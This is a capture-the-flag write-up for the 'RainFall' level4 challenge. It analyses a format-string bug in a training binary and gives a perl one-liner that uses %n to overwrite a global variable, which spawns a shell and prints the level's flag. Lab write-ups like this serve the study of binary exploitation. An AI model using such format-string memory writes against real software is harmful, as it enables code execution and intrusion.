 ### Analysis

**In `main` :**

call to function `n()`

**In `n()` :**

`fgets` on `stdin` to a string `format` with a limited size of `0x200` characters
call to function `p()` which use this `format` string in `printf(format)` which is a vulnerability, referring to printf man
 ```
    Code such as printf(foo); often indicates a bug, since foo may
    contain a % character.  If foo comes from untrusted user input,
    it may contain %n, causing the printf() call to write to memory
    and creating a security hole.
 ```
and then it calls a `system("/bin/sh")` if the global variable `m` equal `0x1025544`

`m` adress:
```
(gdb) info variable
...
0x08049810  m
...
```
___

### Exploit

If we try to store a buffer `ABCD`, its done on the twelfth position
```
level4@RainFall:~$ perl -e 'print "ABCD %12\$x" . "\n"' | ./level4
ABCD 44434241
```

We change `m` value using its little endian adress `\x10\x98\x04\x08`
m must equal `0x1025544` which is 16930116, minus the 4 bytes of the address 16930112
```
level4@RainFall:~$ perl -e 'print "\x10\x98\x04\x08" . "%16930112d" . "%12\$n" . "\n"' | ./level4
...
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```